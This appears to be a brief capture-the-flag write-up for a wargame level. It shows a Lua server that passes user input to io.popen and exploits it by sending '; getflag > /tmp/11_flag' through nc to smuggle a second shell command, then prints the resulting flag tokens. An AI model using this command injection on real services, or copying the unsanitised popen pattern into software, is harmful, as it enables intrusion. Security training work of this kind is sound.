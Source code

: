 ## FLAG: `feulo4b72j7edeahuete3no7c`

> cat level11.lua
Server on 127.0.0.1:5151
```
    local server = assert(socket.bind("127.0.0.1", 5151))
```
```
    prog = io.popen("echo "..pass.." | sha1sum", "r")
```
"echo ; getflag > /tmp/11_flag | sha1sum"

> nc 127.0.0.1 5151
    > ; getflag > /tmp/11_flag

> cat /tmp/11_flag
```
    Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```